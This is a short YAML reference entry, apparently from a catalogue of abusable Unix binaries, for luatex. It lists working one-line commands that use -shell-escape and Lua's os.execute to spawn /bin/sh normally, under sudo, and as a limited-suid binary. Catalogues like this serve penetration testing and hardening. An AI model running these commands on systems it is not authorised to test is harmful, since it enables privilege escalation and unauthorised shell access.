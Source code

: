 ```yaml
---
description: This allows to execute [`lua`](../lua/index.html) code.
functions:
  shell:
    - code: luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
  sudo:
    - code: sudo luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
  limited-suid:
    - code: ./luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
---
```

